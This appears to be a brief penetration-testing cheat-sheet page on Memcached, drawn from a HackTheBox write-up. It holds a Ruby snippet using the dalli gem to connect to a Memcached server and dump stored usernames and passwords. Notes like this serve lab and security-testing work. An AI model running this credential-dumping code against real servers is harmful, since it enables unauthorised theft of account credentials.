 # Memcached

> Memcached \(pronounced variously mem-cash-dee or mem-cashed\) is a general-purpose distributed memory-caching system. It is often used to speed up dynamic database-driven websites by caching data and objects in RAM to reduce the number of times an external data source \(such as a database or API\) must be read.

Ref. [Wikipedia](https://en.wikipedia.org/wiki/Memcached)

## Client

### With dalli

Gem: [dalli](https://rubygems.org/gems/dalli)

Dump passwords credentials from Memcached:

```ruby
require 'dalli'

options = { username: 'usertest', password: 'passwordtest' }
dc = Dalli::Client.new('example.org:11211', options)

usernames = dc.get('username')
puts "Usernames:\n#{usernames}"

passwords = dc.get('password')
puts "\nPasswords:\n#{passwords}"
```

Ref. [Rawsec - Dyplesher - Write-up - HackTheBox](https://blog.raw.pm/en/HackTheBox-Dyplesher-write-up/#memcache-exploitation)

